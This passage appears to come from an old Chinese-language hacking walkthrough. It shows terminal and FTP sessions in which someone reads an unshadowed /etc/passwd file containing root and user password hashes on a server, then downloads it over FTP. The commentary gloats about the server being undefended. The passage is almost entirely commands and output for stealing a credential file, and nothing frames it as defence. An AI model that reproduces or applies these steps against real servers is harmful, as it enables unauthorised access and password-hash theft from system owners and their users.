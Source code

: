(找寻目标..... 太乱了 ! 懒得找, 再来 ....) 

```bash
cool:/etc$ ls pa* 
passwd passwd.OLD passwd.old 
```

(果然在)

```bash
cool:/etc$ more passwd
```

(看看有没有 Shadow...) 

```bash
root:acqQkJ2LoYp:0:0:root:/root:/bin/bash 
john:234ab56:9999:13:John Smith:/home/john:/bin/john 
```

(正点 ! 一点都没有防备 !!) 

```bash
cool:/etc$ exit
logout 
```

(走了!.... 换 FTP 上场 !!) 

```bash
Connection closed by foreign host. 
ms.hinet.net> ftp www.fuckyou.hinet.net 
Connected to cool.fuckyou.hinet.net. 
220 cool FTP server (Version wu-2.4(1) Tue Aug 8 15:50:43 CDT 1995) ready. 
Name (www.fuckyou.hinet.net:66126): fuckyou 
331 Password required for fuckyou. 
Password: 
230 User fuckyou logged in. 
Remote system type is UNIX. 
Using binary mode to transfer files. 

ftp> cd /etc 
250 CWD command successful. 
ftp> get passwd 
200 PORT command successful. 
150 Opening BINARY mode data connection for passwd (350 bytes). 
226 Transfer complete. 
350 bytes received in 0.68 seconds (1.9 Kbytes/s) 

ftp> !cat passwd 
root:acqQkJ2LoYp:0:0:root:/root:/bin/bash 
john:234ab56:9999:13:John Smith:/home/john:/bin/john 
```

(看看 ! 呵 ! 假不了 !!......) 

```bash
ftp> bye 
221 Goodbye. 
ms.hinet.net> exit
```
